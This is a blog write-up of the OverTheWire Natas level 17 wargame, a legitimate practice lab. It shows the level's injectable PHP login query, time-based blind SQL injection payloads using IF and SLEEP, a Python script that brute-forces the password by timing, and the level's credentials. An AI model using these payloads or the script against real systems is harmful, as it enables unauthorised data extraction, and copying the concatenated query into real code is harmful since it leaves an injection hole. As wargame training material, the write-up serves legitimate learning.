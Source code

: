 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 17"
date:   2015-09-26
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 17 > Level 18

![natas17-01](/assets/images/otw-natas/natas17-01.png)

```
<h1>natas17</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

This challenge is identical to [Natas 15]({% post_url 2015-09-21-otw-natas-15 %}) except instead of receiving a simple true/false, we get jack squat!

![natas17-jacksquat](/assets/images/otw-natas/jacksquat.jpg)

If this were a different situation I might look for a network-based solution, can we send something back to ourselves, etc. Since we can't, the only remaining reasonable solution I'm aware of is a timing-based attack.

Modify the solution to [Natas 15]({% post_url 2015-09-21-otw-natas-15 %}) to include a check against the password and an associated SLEEP statement. The payload POC which worked after a bit of fussing about:

```
username=natas18" AND IF(BINARY LEFT(password, 1)="a",0,SLEEP(10));#
```

What I've done here is pick a random letter, 'a,' which I'll assume is not correct and put the SLEEP statement in the 'if not true' portion of the IF function. As expected, the response took slightly longer than 10s to arrive. Moving the SLEEP statement into the 'if true' portion of the IF function, the response returns immediately.

```
username=natas18" AND IF(BINARY LEFT(password, 1)="a",SLEEP(10),0);#
```

It technically doesn't matter which of these we use, but sleeping on a match is preferable in practice since they are fewer hits than misses.

There are a couple things I don't understand that tripped me up before I arrived at this solution. First, the timing is very precise when using AND but goes triple the time specified for sleeping when using an OR. Second, the typical MySQL `--` comment does not work but `#` does to tidy up the end of the command.  Note to future self: understand this.

EDIT: `--` comments [require a space](http://dev.mysql.com/doc/refman/5.1/en/comments.html) after the dashes which I had not included.  Mystery solved. I wonder how many times I've made this error in the past?

```
import socket, time

HOST = "natas17.natas.labs.overthewire.org"
PORT = 80
HEAD = """POST /index.php HTTP/1.1
Host: natas17.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==
Content-Type: application/x-www-form-urlencoded
Content-Length: {clength}\r\n\r\n"""
POST = 'username=natas18" AND IF(BINARY LEFT(password, {glength})="{guess}",SLEEP(10),0);#'
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def natas17(p):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    TPOST = POST.format(glength=len(p), guess=p)
    REQU = HEAD.format(clength=len(TPOST)) + TPOST
   
    t1 = int(time.time())
    s.send(REQU)
    r = s.recv(8192) 
    s.close()
    
    if (int(time.time()) - t1) > 7:
        return True
    return False

p = ''
for i in xrange(64):
    f = False
    for c in ALPH:
        print p, c
        if natas17(p + c):
            f = True
            p = p + c
            break
    if not f:
        break

print "DONE"
print p
```

This one is fun to watch becuase of the obvious pause when a correct character is found.  Good stuff.

![natas17-02](/assets/images/otw-natas/natas17-02.png)

Eventually, xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
